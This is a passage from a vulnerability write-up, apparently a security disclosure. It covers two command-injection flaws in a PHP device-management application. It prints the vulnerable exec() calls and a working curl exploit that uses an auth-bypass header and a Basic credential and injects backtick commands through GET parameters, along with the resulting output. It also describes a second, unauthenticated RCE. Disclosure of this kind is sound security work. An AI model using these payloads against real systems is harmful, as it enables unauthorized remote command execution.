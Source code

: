 ```php
/*
...
REDACTED
...
*/
	$file = exec("lua /var/www/lua/make_keys_pdf.lua " . json_encode($_GET["set"]) . " " . json_encode(json_encode($arr_fkeys)));
    if (file_exists($file)) {
        readfile($file);
        unlink($file);
    }
}


```
since `auth.php` is included , the auth bypass is needed here. other than that it is a straight forward command execution

**exploitation :** send a request to endpoint `features/make_keys_pdf.php` with headers mentioned in the auth bypass above set accordingly and with get param `set` set to command to be executed inside backticks
```console
$ curl 'http://192.168.0.19/features/make_keys_pdf.php?set=`id>PWNED`' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 

$ curl 'http://192.168.0.19/features/PWNED'
uid=1000(wms) gid=1000(wms) groups=42(shadow),1000(wms),1005(ejabberd)

```

### RCE
This one is very straight forward . a user supplied value is directly concatenated in to a command and executed. And since `auth.php` is not included there is no need for auth bypass. The vulnerable endpoint is  `/devices/device_verify.php`
```php
if (isset($_GET["action"]) && isset($_GET["ip"])) {
    $nmap_opts = "-sS";
    if (isset($_GET["rawScan"])) {
        $nmap_opts = "--unprivileged -sT";
    }
    $content = exec("nice -n 20 nohup sudo nmap --script /var/www/lua/discovery.nse " . $nmap_opts . " -n --max-retries 2 --max-hostgroup 1 --max-rtt-timeout 1750ms --initial-rtt-timeout 1250ms --open -p 80,443 -oG - " . $_GET["ip"] . " 2>&1 >/dev/null");
    echo "{" . $content . "}";
}

?>
```

**exploitation :** send a request to endpoint  `/devices/device_verify.php` with get param `action` set to any value and get param `ip` set to a the command to be executed inside backticks
